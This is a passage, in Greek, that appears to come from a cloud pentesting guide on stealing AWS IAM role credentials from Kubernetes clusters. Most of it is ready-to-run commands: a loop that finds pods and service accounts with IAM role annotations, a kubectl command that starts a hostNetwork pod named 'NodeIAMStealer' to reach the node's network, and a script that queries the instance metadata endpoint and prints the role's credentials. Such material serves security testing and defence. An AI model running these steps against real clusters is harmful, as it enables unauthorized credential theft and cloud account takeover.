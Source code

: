 {{#ref}}
../aws-security/aws-basic-information/aws-federation-abuse.md
{{#endref}}

### Βρείτε Pods και SAs με IAM Ρόλους στο Cluster

Αυτό είναι ένα σενάριο για να **επικοινωνήσετε εύκολα με όλα τα pods και τις ορισμούς sas** **αναζητώντας** αυτή την **αναφορά**:
```bash
for ns in `kubectl get namespaces -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
for pod in `kubectl get pods -n "$ns" -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
echo "Pod: $ns/$pod"
kubectl get pod "$pod" -n "$ns" -o yaml | grep "amazonaws.com"
echo ""
echo ""
done
for sa in `kubectl get serviceaccounts -n "$ns" -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
echo "SA: $ns/$sa"
kubectl get serviceaccount "$sa" -n "$ns" -o yaml | grep "amazonaws.com"
echo ""
echo ""
done
done | grep -B 1 "amazonaws.com"
```
### Node IAM Role

Η προηγούμενη ενότητα αφορούσε το πώς να κλέψετε IAM Roles με pods, αλλά σημειώστε ότι ένα **Node του** K8s cluster θα είναι μια **περίπτωση μέσα στο cloud**. Αυτό σημαίνει ότι το Node είναι πολύ πιθανό να **έχει έναν νέο IAM ρόλο που μπορείτε να κλέψετε** (_σημειώστε ότι συνήθως όλα τα nodes ενός K8s cluster θα έχουν τον ίδιο IAM ρόλο, οπότε μπορεί να μην αξίζει να προσπαθήσετε να ελέγξετε κάθε node_).

Υπάρχει ωστόσο μια σημαντική απαίτηση για να έχετε πρόσβαση στο metadata endpoint από το node, πρέπει να είστε στο node (ssh session;) ή τουλάχιστον να έχετε το ίδιο δίκτυο:
```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
### Κλέψε το IAM Role Token

Προηγουμένως έχουμε συζητήσει πώς να **συνδέσουμε IAM Roles σε Pods** ή ακόμα και πώς να **διαφύγουμε στον Node για να κλέψουμε το IAM Role** που έχει συνημμένο η παρουσία.

Μπορείτε να χρησιμοποιήσετε το παρακάτω σενάριο για να **κλέψετε** τα νέα σκληρά κερδισμένα **διαπιστευτήρια IAM role**:
```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
echo "IAM Role discovered: $IAM_ROLE_NAME"
if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
echo "Credentials:"
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
fi
fi
```
## Αναφορές
